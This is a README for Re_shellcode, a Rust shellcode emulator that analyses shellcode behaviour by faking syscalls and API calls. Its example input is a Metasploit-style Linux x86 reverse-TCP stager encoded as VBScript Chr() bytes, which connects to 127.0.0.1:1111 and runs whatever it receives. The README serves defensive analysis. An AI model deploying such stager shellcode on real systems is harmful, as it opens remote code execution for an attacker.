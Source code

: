 # Re_shellcode

![Reshellcode.png](https://github.com/dDostalker/Re_shellcode/blob/main/.picture/Reshellcode.png?raw=true)



> **！！！项目目前只完成框架，缺少大量汇编指令和api的功能，目前只能对msf生成32/64位linux进行分析** 

Reshellcode是由rust构建的shellcode模拟运行动态分析器，通过模拟32/64位处理器、内存和基本Windows API/Linux系统调用运行环境来虚拟执行Shellcode以分析其行为。

### 原理

Shellcode为了实现特定的功能必须通过调用系统API来完成。Re_shellcode通过模拟执行以多个API来探测shellcode的行为。例如，创建文件和访问网络这些危险的API并没有真正的在本机执行，而是通过传回虚假的返回值来欺骗shellcode让其平稳运行。

### 优势

- 跨平台开源

  同时支持类Unix和Windows系统

- 文档数据捕获

  可以对多种语言的书写格式进行捕获加载（如rust、go、c、vbs、js……）

- 其他重要功能

  包括反汇编、内存监视、简单调试Shell、一键梭哈

- 支持不只x86架构，在未来会支持更多架构

### 使用方法

```shell
# 	带*的为唯一参数，带!的为正常运行不可遗漏参数
    --help 		-h	查看帮助*
    --version	-v	查看版本*
    --file		-f	选择单文件导入程序 后跟文件路径!
    --arch		-a	设置架构
    --debug		-b	调试模式
```

#### 目前支持架构

- x86
- x64

### 未来更新方向

- 补充汇编指令！
- 补充终端和winapi！
- 支持python/rust脚本将捕获数据解密
- 支持插入真实运行

### 示例

#### 文本内容

```vbscript
buf=Chr(106)&Chr(10)&Chr(94)&Chr(49)&Chr(219)&Chr(247)&Chr(227)&Chr(83)&Chr(67)&Chr(83)&Chr(106)&Chr(2)&Chr(176)&Chr(102)&Chr(137)&Chr(225)&Chr(205)&Chr(128)&Chr(151)&Chr(91)&Chr(104)&Chr(127)&Chr(0)&Chr(0)&Chr(1)&Chr(104)&Chr(2)&Chr(0)&Chr(4)&Chr(87)&Chr(137)&Chr(225)&Chr(106)&Chr(102)&Chr(88)&Chr(80)&Chr(81)&Chr(87)&Chr(137)&Chr(225)&Chr(67)&Chr(205)&Chr(128)&Chr(133)&Chr(192)&Chr(121)&Chr(25)&Chr(78)&Chr(116)&Chr(61)&Chr(104)&Chr(162)&Chr(0)&Chr(0)&Chr(0)&Chr(88)&Chr(106)&Chr(0)&Chr(106)&Chr(5)&Chr(137)&Chr(227)&Chr(49)&Chr(201)&Chr(205)&Chr(128)&Chr(133)&Chr(192)&Chr(121)&Chr(189)&Chr(235)&Chr(39)&Chr(178)&Chr(7)&Chr(185)&Chr(0)&Chr(16)&Chr(0)&Chr(0)&Chr(137)&Chr(227)&Chr(193)&Chr(235)&Chr(12)&Chr(193)&Chr(227)&Chr(12)&Chr(176)&Chr(125)&Chr(205)&Chr(128)&Chr(133)&Chr(192)&Chr(120)&Chr(16)&Chr(91)&Chr(137)&Chr(225)&Chr(153)&Chr(178)
buf=buf&Chr(106)&Chr(176)&Chr(3)&Chr(205)&Chr(128)&Chr(133)&Chr(192)&Chr(120)&Chr(2)&Chr(255)&Chr(225)&Chr(184)&Chr(1)&Chr(0)&Chr(0)&Chr(0)&Chr(187)&Chr(1)&Chr(0)&Chr(0)&Chr(0)&Chr(205)&Chr(128)
```

#### 执行命令

```powershell
.\Reshellcode.exe -f ".\shellcode_linux_x86\shellcode-vbs.txt" -a x86 -b
```

![Reshellcode1.png](https://github.com/dDostalker/pictures/blob/main/Reshellcode1.png?raw=true)

![Reshellcode2.png](https://github.com/dDostalker/pictures/blob/main/Reshellcode2.png?raw=true)

![Reshellcode3.png](https://github.com/dDostalker/pictures/blob/main/Reshellcode3.png?raw=true)

